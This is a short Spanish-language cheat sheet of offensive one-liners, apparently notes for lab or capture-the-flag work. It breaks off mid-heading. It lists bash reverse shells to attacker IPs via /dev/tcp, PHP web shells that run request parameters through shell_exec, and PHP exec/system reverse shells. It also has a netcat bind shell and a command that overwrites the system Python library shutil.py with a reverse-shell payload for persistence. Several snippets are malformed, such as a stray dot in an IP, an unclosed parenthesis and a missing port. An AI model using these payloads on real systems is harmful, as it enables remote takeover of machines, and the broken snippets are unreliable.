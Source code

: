 ### Oneliner Bash
```css
bash -c 'exec bash -i &>/dev/tcp/10.10.10.10./9001 <&1'
```

### Oneliner cmd desde url
```css
<?php 
        echo "<pre>" . shell_exec($_REQUEST['cmd']>
?>
```

### Oneliner php
```python
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/7890 0>&1'");
```

### Oneliner php
```python
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.85/443 0>&1'")
?>
```

### Oneliner php

```python
<?php
 echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
 ?>
```

### Oneliner python
```python
echo "import os; os.system(\"bash -c 'bash -i >& /dev/tcp/10.8.203.6 0>&1'\")" > /usr/lib/python3.8/shutil.py
```

### Blind Shell
```python
# Maquina Victima

nc -nlvp 4646 -e /bin/bash
---------------------------------------------------------------------------------------------------

# Maquina Atacante

nc IPvictima 4646

```

### Funci
